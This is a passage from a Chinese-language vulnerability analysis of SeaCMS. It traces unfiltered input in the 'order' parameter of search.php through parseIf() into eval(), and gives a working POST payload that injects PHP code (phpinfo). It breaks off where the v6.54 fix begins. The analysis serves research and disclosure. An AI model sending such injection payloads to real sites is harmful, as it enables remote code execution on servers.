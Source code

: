 ```php
    }
```

上面主要逻辑是解析{if:}{end if}标签代码，把if语句的条件判断部分取出来然后用eval函数去执行， 这个漏洞点在于在这个过程中没有做任何处理，直接用eval函数去处理， 我们去找找调用这个函数的地方


在search.php 中的echoSearchPage()函数可以触发漏洞

```php
function echoSearchPage()
{
    global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
    $order = !empty($order)?$order:time;
 ...
 ...
 ...
    $content = str_replace("{searchpage:page}",$page,$content);
    $content = str_replace("{seacms:searchword}",$searchword,$content);
    $content = str_replace("{seacms:searchnum}",$TotalResult,$content);
    $content = str_replace("{searchpage:ordername}",$order,$content);
 ...
 ...
 ...
    $content=replaceCurrentTypeId($content,-444);
    $content=$mainClassObj->parseIf($content);
```

order 这个变量可以通过变量覆盖来传入，没有任何过滤，之后用order变量替换了模板中的`{searchpage:ordername}` 

    $content = str_replace("{searchpage:ordername}",$order,$content);
    
我们提交我们post的数据：

    searchword=d&order=}{end if}{if:1)phpinfo();if(1}{end if}
    
替换后的模板的html代码如下:

```php
<a href="{searchpage:order-time-link}" {if:"}{end if}{if:1)phpinfo();if(1}{end if}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
<a href="{searchpage:order-hit-link}" {if:"}{end if}{if:1)phpinfo();if(1}{end if}"=="hit"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderaddtime">最近热播</a>
<a href="{searchpage:order-score-link}" {if:"}{end if}{if:1)phpinfo();if(1}{end if}"=="score"} class="btn btn-success" {else} class="btn btn-default" {end if} id="ordergold">评分最高</a>
```

然后经过parseIf函数的解析，将{if:}{end if}的条件判断语句提取出来，即`1)phpinfo();if(1` , 正则语句为` $labelRule = buildregx("{if:(.*?)}(.*?){end if}","is");`

eval 函数字符拼接后最终执行的代码是:

    evil("if(1)phpinfo();if(1){\$ifFlag=true;}else{\$ifFlag=false;}");


### v6.54 版本代码注入
之后官方修复了这一漏洞，修复方式是这样的:
